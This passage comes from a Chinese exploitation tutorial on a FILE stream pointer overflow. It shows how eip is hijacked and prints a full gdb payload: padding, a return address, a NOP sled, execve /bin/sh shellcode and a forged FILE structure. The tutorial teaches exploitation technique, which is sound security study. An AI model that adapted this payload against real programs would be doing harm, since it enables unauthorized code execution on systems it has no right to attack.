 我这里指向了 0xffffd63e 处，加上 0x1c 后（看上面汇编），为 0xffffd6ca。

![p5](http://drops.javaweb.org/uploads/images/fc417f48f72bd9acf6e2f1b48d0ab7c177076160.jpg)

已经可以控制 eip 了，我们修改一下 0xffffd6ca 处的地址，使其指向 0xffffd6cf，然后 0xffffd6ce-0xffffd6ec 这 30 个字节上放上 shellcode。注意 shellcode 应该正好为 30 个字节，不能多也不能少，少了的话用`\x90`补充（根据实际情况来就好了）。

最终 payload：

```
r "`python -c "print 'a'*847 + '\xcf\xd6\xff\xff' + '\x90'*9 + '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80' + '\x86\x20\xad\xfbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\xba\xfb\xf7\x02AAAAAAA\xff\xff\xff\xffAA\x08A\xac\xc8\xfb\xf7\xff\xff\xff\xff\xff\xff\xff\xffAAAA\x60\xbb\xfb\xf7AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x80\xaa\xfb\xf7AAAA\xae\xd6\xff\xff' + '\xec\xd6\xff\xff'"`"

```

执行效果：![p6](http://drops.javaweb.org/uploads/images/f074b6900d521833ad04c9e6a408763a35ca6ade.jpg)

0x03 参考
=======

* * *

*   [File Stream Pointer Overflows Paper](http://repo.hackerzvoice.net/depot_ouah/fsp-overflows.txt)
*   [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/)
*   [BUFFER OVERFLOW EXPLOITATION](https://securimag.org/wp/news/buffer-overflow-exploitation/)